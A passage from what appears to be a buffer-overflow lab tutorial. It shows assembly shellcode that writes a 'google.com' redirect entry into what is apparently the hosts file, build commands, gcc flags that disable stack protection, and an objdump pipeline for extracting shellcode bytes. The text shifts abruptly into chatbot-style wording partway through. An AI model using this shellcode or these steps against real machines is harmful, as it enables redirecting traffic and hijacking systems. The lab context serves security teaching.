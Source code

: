    ```asm
       pop edx
       int 0x80            ;syscall to write in the file

       push 0x6
       pop eax
       int 0x80            ;syscall to close the file

       push 0x1
       pop eax
       int 0x80            ;syscall to exit

   _load_data:
       call _write
       google db "127.1.1.1 google.com"
   ```

3. **Compiling the Programs:**
   - First, assemble and link the shellcode into an executable binary:
   
   ```bash
   nasm -f elf32 shellcode.asm -o shellcode.o
   ld -m elf_i386 shellcode.o -o shellcode
   ```

   - Compile the vulnerable C program:
   
   ```bash
   gcc -m32 -fno-stack-protector -z execstack vulnerable.c -o vulnerable
   ```

   - The `-fno-stack-protector` flag disables the stack protector, and `-z execstack` allows the stack to be executable, which is necessary for executing shellcode injected into the buffer.

4. **Injecting the Shellcode via Code Injection:**
   - We can now run the vulnerable program with the shellcode injected into the argument. First, extract the raw shellcode from the binary:

   ```bash
   objdump -d shellcode | grep '[0-9a-f]:' | grep -o '\s[0-9a-f]\{2\}' | sed 's/ //g' | tr -d '\n' > shellcode.hex
   ```
![shellcode_hex](https://github.com/user-attachments/assets/74990fd5-db38-4337-a1ef-17274e8a5195)

   - The output will be the hex representation of the shellcode, which we can pass as input to the vulnerable program.

   - Prepare an exploit script that will trigger the buffer overflow:
It looks like we've provided the hex representation of our shellcode. To inject this shellcode into our vulnerable C program (`vuln`), we will need to convert the hex string into raw shellcode and pass it as an argument to the vulnerable program to trigger the buffer overflow.

Here's how we can proceed:

### Steps to Inject the Shellcode:

1. **Convert Hex Shellcode to Binary**:
   - The hex representation we provided can be converted into raw binary using a Python script. This will produce the exact shellcode that we can pass as input to the vulnerable program.
